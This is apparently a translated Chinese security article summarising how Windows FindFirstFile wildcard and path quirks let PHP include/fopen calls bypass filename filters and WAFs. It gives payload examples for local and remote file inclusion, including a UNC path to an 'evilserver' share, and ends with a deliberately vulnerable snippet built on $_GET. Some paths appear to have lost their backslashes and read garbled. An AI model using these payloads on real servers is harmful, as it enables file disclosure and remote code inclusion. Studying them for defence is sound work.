 ## 利用方法总结
1. 当调用FindFirstFile()函数时，”<”被替换成” * ”,这意味该规则可以使”<”替换多个任意字符，但是测试中发现并不是所有情况都如我们所愿。所以，**为了确保能够使”<”被替换成”*”,应当采用”<<”**
```
EXAMPLE:include(‘shell<');  或者include(‘shell<<');    //当文件夹中超过一个以shell打头的文件时，该执行取按字母表排序后的第一个文件。
```
2. 当调用FindFirstFile()函数时，”>”被替换成”?”,这意味这”>”可以替换单个任意字符
```
EXAMPLE：include(‘shell.p>p');    //当文件中超过一个以shell.p?p 通配时，该执行取按字母表排序后的第一个文件。
```
3. 当调用FindFirstFile()函数时，”””(双引号)被替换成”.”
```
EXAMPLE:include(‘shell”php');    //===>include(‘shell.php');
```
4. 如果文件名第一个字符是”.”的话，读取时可以忽略之
```
EXAMPLE：fopen(‘.htacess');  //==>fopen(‘htacess');   //加上第一点中的利用 ==>fopen(‘h<<');
```
5. 文件名末尾可以加上一系列的/或者的合集，你也可以在/或者中间加上.字符，只要确保最后一位为”.”
```
EXAMPLE：fopen(“config.ini\.// ///.”);==>  fopen(‘config.ini./..'); ==>fopen(‘config.ini/////.')==>fopen(‘config.ini…..')   //译者注：此处的利用我不是很理解，有何作用？截断？
```
6. 该函数也可以调用以”\”打头的网络共享文件，当然这会耗费不短的时间。补充一点，如果共享名不存在时，该文件操作将会额外耗费4秒钟的时间，并可能触发时间响应机制以及max_execution_time抛错。所幸的是，该利用可以用来绕过allow_url_fopen=Off 并最终导致一个RFI（远程文件包含）
```
EXAMPLE：include (‘\evilservershell.php');
```
7. 用以下方法还可以切换文件的盘名
```
include(‘\.C:myfile.php......D:anotherfile.php');
```
8. 选择磁盘命名语法可以用来绕过斜线字符过滤
```
file_get_contents(‘C:boot.ini'); //==>  file_get_contents (‘C:/boot.ini');
```
9. 在php的命令行环境下（php.exe）,关于系统保留名文件的利用细节
```
EXAMPLE:file_get_contents(‘C:/tmp/con.jpg'); //此举将会无休无止地从CON设备读取0字节，直到遇到eof

EXAMPLE:file_put_contents(‘C:/tmp/con.jpg',chr(0×07));  //此举将会不断地使服务器发出类似哔哔的声音
```
## 更深入的利用方法

除了以上已经展示的方法，你可以用下面的姿势来绕过WAF或者文件名过滤

请思考该例：
```php
<?php
	file_get_contents("/images/".$_GET['a'].".jpg");
	//or another function from Table 1, i.e. include().
?>
```
